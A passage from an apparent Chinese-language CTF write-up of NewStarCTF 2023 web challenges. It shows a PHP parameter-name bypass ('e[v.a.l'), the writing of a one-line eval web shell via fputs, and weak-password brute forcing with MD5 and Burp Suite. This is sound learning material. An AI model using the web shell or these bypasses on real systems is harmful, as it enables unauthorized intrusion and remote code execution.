 发现password=114514

下面，我们发现直接POST传e_v.a.l不会接收到任何数据，原因是php会对非法字符进行过滤，并将其修改为__（下划线）。但是该操作只会进行一次。（神奇的脑回路）非法字符如下：

![](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20231002114225930.png)

于是为了让e_v.a.l中的.不被替换，我们将其中的下划线改为非法字符(])，然后让其变化一次阻止其继续变化。

```
password=114514&e[v.a.l=phpinfo();
```

成功了：

![](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20231002114547184.png)

这里发现没有屏蔽fputs，直接写入木马，然后上蚁剑：

```php
fputs(fopen('shell.php','w'),'<?php @eval($_POST[cmd]);?>');
```

![](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20231002115040330.png)

![](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20231002115109139.png)

# Easy Login

以后碰到用户名密码一定先弱口令爆破！！！

![](C:\Users\alext\AppData\Roaming\Typora\typora-user-images\image-20231003104724610.png)

这里payload使用弱密码字典，但是记得使用md5加密。

爆破结果如下，找到字节数和其他的结果不同的结果就是答案：

![](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20231003105048454.png)

答案就是670b14728ad9902aecba32e22fa4f6bd（解密后是000000）。

这里登录后，在终端中CTRL-D退出终端，寻找历史记录，提示使用BurpSuite。

![](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20231003105231688.png)

于是使用burpsuite。直接抓包发现没有什么信息。但是http请求记录里面有一个可疑点：

![](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20231003105340181.png)

进去查看返回包就发现flag。

![](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20231003105414680.png)

Web完结。


---

> 作者: alextang  
> URL: https://alextang.top/articles/2023/10/newstarctf2023-week1-web/  

